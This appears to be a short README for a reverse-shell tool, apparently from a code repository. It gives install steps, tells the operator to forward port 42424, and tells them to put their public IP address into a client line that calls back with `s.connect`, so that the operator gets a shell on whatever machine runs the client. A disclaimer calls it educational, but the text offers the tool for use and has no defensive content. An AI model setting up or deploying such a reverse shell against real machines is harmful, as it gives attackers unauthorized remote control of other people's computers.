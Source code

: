 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## Installation 
type in the command line `pip install -r requirements.txt` to install all required modules

## How to use
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.

## Client
make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
